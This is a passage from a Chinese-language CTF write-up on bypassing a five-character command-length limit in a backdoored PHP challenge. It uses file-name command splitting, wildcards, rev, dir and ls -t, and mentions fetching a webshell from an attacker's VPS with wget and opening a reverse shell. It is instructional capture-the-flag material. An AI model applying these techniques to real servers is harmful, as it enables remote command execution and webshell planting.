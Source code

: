 
总而言之文件构造绕过就是如下知识：
```
linux下可以用 1>a创建文件名为a的空文件
ls -t>test则会将目录按时间排序后写进test文件中
sh命令可以从一个文件中读取命令执行
```

反弹shell命令比较长就可以用这种方式去绕过长度限制
如果服务器能连外网还可以使用命令wget 网址 -O shell.php去执行我们自己vps上面的木马文件
1、在`linux`中，`星号*`可以作为通配符使用，输入`*`后，`linux`会将该目录下第一个列出的文件名作为命令，剩下的的文件名当作参数。
>通配符是按首字母排序的

![[Pasted image 20250330092227.png]]
像上面这个例子，执行`*`就相当于执行`ls t`，将`ls`作为命令，`t`作为参数；

有的时候当一个目录下有很多个文件的时候，可以在`*`后面加上字母作为限制，就可以限定为必须要**带有该字母的文件**才能被当作**命令**和**参数**，它依旧是按照字母顺序，第一个为命令，后面的为参数，比如说下面这个例子，虽然说里面有很多文件，但我们用了`*s`，相当于就是带有`s`的第一个文件被作为了命令，后面带有`s`的文件作为了参数，所以说我们执行`*s`，相当于执行`ls s`
![[Pasted image 20250330092511.png]]
2、`linux`中还有一个倒置命令`rev`，它可以将文件中的内容倒置，比如说下面这个例子，`a`文件中的内容本来是`1234`，然后我们用了`rev`倒置命令，就输出了`4321`，我们还可以将这个输出结果写入文件`b`中
![[Pasted image 20250330092538.png]]
当然，我们也可以按照前面的方法，将`rev`当作文件名，然后利用`*v`来执行它，只不过文件名也要为`v`

3、`linux`中还有一个命令`dir`，这个命令和`ls`基本上是一样的，只不过用`ls`写入文件中时，每个文件名都是单独一行，它会自动换行，这会影响我们后面命令的执行，但`dir`就会全部写入一行中，并且会自动加空格，所以说我们就用`dir`代替`ls`
![[Pasted image 20250330092819.png]]

## 实例
```php
<?php

if(md5(md5($_GET["pass"]))=="42dc38109914179199efc5c18d47ee68")
{
    show_source("shell.php");
    echo "<br><br>年轻人，这个后门你把握不住，收手吧<br><br>";
    echo "<br>".$_SERVER['HTTP_USER_AGENT'];

    $you_file = '/var/www/html/wllm/'.md5("wllm" . $_SERVER['HTTP_USER_AGENT']);

    mkdir($you_file);
    chdir($you_file);

    if (isset($_GET['big_hacker_LTLT']) && strlen($_GET['big_hacker_LTLT']) <= 5) 
    {
        echo exec($_GET['big_hacker_LTLT']);

    } else if (isset($_GET['reset'])) 
    
    {
        @exec('/bin/rm -rf ' . $you_file);
    }
    
} 
?>
```
###  思路分析
从代码中可知，这里有`exec`函数，是可以执行命令的，但由于有长度限制，所以说我们不能执行完整命令，只能试图利用`linux`下命令可以拆分的特点，将写入一句话木马的命令，拆分开来，作为文件名的形式先写进去，然后再写一个文件`v`，里面的内容是`ls -th >f`，然后通过执行这个文件`v`，让前面的文件名按照时间顺序拼接起来，并写入到文件`f`中，那文件`f`中就是我们想要的写入一句话木马的命令了，最后执行这个文件`f`，就将木马成功写入进去了
### 具体过程
 1.我们首先来写**写入一句话木马的命令**，这里要注意的是，由于里面有`< ?`这些字符，所以说我们先将其`base64`编码后再写入，具体：